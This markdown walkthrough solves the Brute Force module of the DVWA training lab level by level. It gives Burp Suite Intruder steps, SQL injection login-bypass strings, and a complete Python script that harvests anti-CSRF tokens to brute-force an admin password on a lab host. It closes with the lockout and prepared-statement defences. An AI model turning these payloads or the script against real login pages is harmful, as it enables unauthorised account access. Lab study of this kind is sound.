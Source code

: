     
# Tasks-1 of DVMA

## DVWA Sulutions of Brute Force: 
  ## Brute Force 
  ### Low Security Level:
    *   View Source
    *   Find that, only 'Login' will be validated, isset(*) checks whether para* is set and return True/False.
    *   Without any defense of Brute Force, also without any Filter of 'username' and 'password'.
    
#### Method 1: Usage of Burpsuite for Brute Force 
	  * Steps:
		    * 1.1 open Burpsuite (Burpsuite is easy to get/download and install from web).
		    * 1.2 click Proxy, set Intercept off firstly, then click 'open browser' to load the webseite,
		    	   which need to be intercepted.
		    * 1.3 input arbitrary value to login, and Burpsuite will get the info about its.
		    * 1.4 'Ctrl+l' or chose 'Action' as 'Send it to Intruder'.
		    * 1.5 Add password as playload value.
		    * 1.6 Fill the playload set, and start attack.
		    * 1.7 Actually, you will find the response length of the correct password is different as others.
	    
#### Method 2: Sql Injection
	  * 2.1 
		-username：  admin ' or ' 1 ' = ' 1
		-password: (none)
	  * 2.2 
		-username: admin ' #   (#:annotation of rest request sentence.)
		-pass: (none)
            
### Medium Security Level:
  * Different from Low Level, a new function is added.
  
	     * mysql_real_escape_string function, this function will transfer the special symbols, like " ' ", 
	       namely, this function can defence Sql Injection Attack.
	       Thus, the Sql Injection Attack in medium level unfeasible nowly.
	     * but the Brute Force with Burpsuit is still work in this level.
	       (same as low level, see the steps discription of low level)
            
### Highl Security Level:
   * At high level, a function of generation of CSRF Token is added. 
   
           * namely, generateSessionToken(); // Generate Anti-CSRF token  
           * that means, the Request Url will contains a 'user_token' by sending to Server. And the Sever checks the recieved token firstly, if token is valid, then the Server 
             operates the Sql queries.
	     
* To achieve the goal at high security level, we need to write a phython script to brute force the password.
   
* Constuct request to server to get response

		req = urllib.request.Request(url=requrl,headers=header)
		
* Get ' user_token ' , we need to use BeautifulSoup package to read the reponse content, and parser the page to get 'token'
	  
		  soup = BeautifulSoup(the_page,"html.parser")
		  user_token = soup.find('input',{'name':'user_token'})['value']
	   
* Brute force the password by sending request to the server with following URL, which including the param 'user_token' additional

	   	 requrl = "http://192.168.178.34/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token 
		
* Use the Brupsuite to intercept the whole runtime of python code, we need to set the ProxyHandler of those code, so that, the Proxy is same as Brupsuite's.
      
      	proxy_handler = urllib.request.ProxyHandler({'http': '127.0.0.1:8080'}) ; opener = urllib.request.build_opener(proxy_handler)
          
##### Complete Code is as following:

	from bs4 import BeautifulSoup
	import urllib.request


	proxy_handler = urllib.request.ProxyHandler({'http': '127.0.0.1:8080'})
	opener = urllib.request.build_opener(proxy_handler)


	header = {
		'Host': '192.168.178.34',
			'Cache-Control': 'max-age=0',
			'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
			'Referer': 'http://192.168.178.34/vulnerabilities/brute/index.php',
			'Accept-Encoding': 'zip, deflate',
			'Accept-Language': 'zh-CN,zh;q=0.9',
			'Cookie': 'security=high; PHPSESSID=ra6hjmncufirj8n9qgioejm854'
			}

	requrl = "http://192.168.178.34/vulnerabilities/brute/"

	def get_token(requrl,header):
		req = urllib.request.Request(url=requrl,headers=header)
		response = opener.open(req)
		the_page = response.read()
		soup = BeautifulSoup(the_page,"html.parser")
		print(len(the_page),response.getcode())
		user_token = soup.find('input',{'name':'user_token'})['value']  #get the user_token
		#print(user_token)
		return user_token

	user_token = get_token(requrl,header)

	i=0

	for line in open('test'):
		requrl = "http://192.168.178.34/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
		i = i+1
		print(i,'admin',line.strip(),end=" ")
		user_token = get_token(requrl, header)
		if (i == 7):
			break
			
		# because 'test' is only including 7 passwords.
        
        
### Impossible Security Level
* At Impossible Level a 'Lockdown' setting is added. When login has been failed more than 3 times, the 'Login' will be locked for 15 minutes.
* So that we can not no longer to brute force the login process.

		    // Default values
		    $total_failed_login = 3;
		    $lockout_time       = 15;
		    $account_locked     = false;
		    
* Also, 'PDO' defense system is added , and used to prevent from SQL Injection Attack.

		$data->bindParam( ':user', $user, PDO::PARAM_STR );
		
	* Note:
	
		PDO: PHP Data Object. In PDO defense system ,it used pre-statement to prevetion SQL Injection.
		bindParam: bind a php variable to a SQL param.

